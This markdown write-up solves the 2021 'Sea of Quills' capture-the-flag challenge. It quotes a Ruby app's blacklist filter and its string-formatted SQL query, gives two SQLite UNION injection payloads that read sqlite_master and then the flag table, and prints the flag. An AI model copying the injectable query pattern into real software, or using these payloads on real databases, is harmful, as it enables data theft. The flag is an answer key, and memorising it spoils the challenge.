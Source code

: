 # Sea of Quills

## Description

Come check out our [finest selection of quills](https://seaofquills.2021.chall.actf.co/)!

[app.rb](app.rb)

## Solution

First of all let's analyze the code, we have 3 interesting part:

Some characters are blacklisted

```ruby
	blacklist = ["-", "/", ";", "'", "\""]
	
	blacklist.each { |word|
		if cols.include? word
			return "beep boop sqli detected!"
		end
	}
```

Field `lim` and `off` must be numeric

```ruby
if !/^[0-9]+$/.match?(lim) || !/^[0-9]+$/.match?(off)
		return "bad, no quills for you!"
	end
```

There is also a `cols` field
```ruby
@row = db.execute("select %s from quills limit %s offset %s" % [cols, lim, off])
```

Given this information we probably need to do some SQL injection using the `cols` field

In the `/explore` page we cannot see the `cols` field, but by analyzing and edit the HTML code we can remove the hidden tag 

![](img1.png)
![](img2.png)

Now we can start with the SQL injection (lim=100, off=0)

First things first, we need to understand where we can find the flag and we can do it by see which table are present in the DB

```SQL
name FROM sqlite_master UNION SELECT url
```

![](img3.png)

There is a `flagtable`, so let's try to get the flag now

```SQL
flag FROM flagtable UNION SELECT url
```

![](img4.png)

#### **FLAG >>** `actf{and_i_was_doing_fine_but_as_you_came_in_i_watch_my_regex_rewrite_f53d98be5199ab7ff81668df}`